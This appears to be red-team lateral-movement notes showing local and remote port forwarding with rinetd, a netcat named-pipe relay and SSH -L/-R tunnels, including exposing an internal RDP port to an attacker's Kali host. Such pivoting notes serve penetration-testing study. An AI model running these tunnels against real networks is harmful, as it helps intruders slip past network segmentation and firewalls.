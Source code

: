 ### Local Port Forwarding

![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/LateralMovement/Images/Screen15.png?raw=true)

1- Rinetd
```
# Target Machine // 10.0.0.1
Python -m SimpleHTTPServer 80

# Gateway Machine
apt-get install rinetd
nano /etc/rinetd.conf
    localhost    localport    remotehost    remoteport     
    127.0.0.1    53            10.0.0.1    80

# Kali Machine // http://gatway:53 → http://10.0.0.1:80
```

2- Netcat
```
# Target Machine // 10.0.0.1
nc -lnvp 22

# Gateway Machine
mknod relaynode p
nc -lvnp 1111 0<relaynode | nc 10.0.0.1 22 1>relaynode

# Kali Machine
nc gateway 1111
```

3- SSH
```
# Target Machine // 10.0.0.1
Python -m SimpleHTTPServer 80

# Gateway Machine
nano /etc/ssh/sshd_config
    Port 53

# Kali Machine
// Now we will connect to the gateway through ssh on port 53, then we will connect
// port 8080 on the internal machine with port 80 on the web server machine. 
ssh user@gateway -p 53 -L 127.0.0.1:8080:10.0.0.1:80
// Now browse to http://127.0.0.1:8080 -> http://10.0.0.1:80
```

### Remote Port Forwarding

![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/LateralMovement/Images/Screen16.png?raw=true)

1- SSH
```
# Kali Machine // 10.0.0.1
nano /etc/ssh/sshd_config
    Port 53

# Target Machine
// let’s assume that port 3389 is open internaly only.
nc -nvlp 3389
// Now we will connect to my kali machine through ssh on port 53, then we will
// connect port 4444 on kali with port 3389 on the target machine.
ssh user@10.0.0.1 -p 53 -R 10.0.0.1:4444:127.0.0.1:3389
// Now try to connect to port 4444 on kali machine.
```
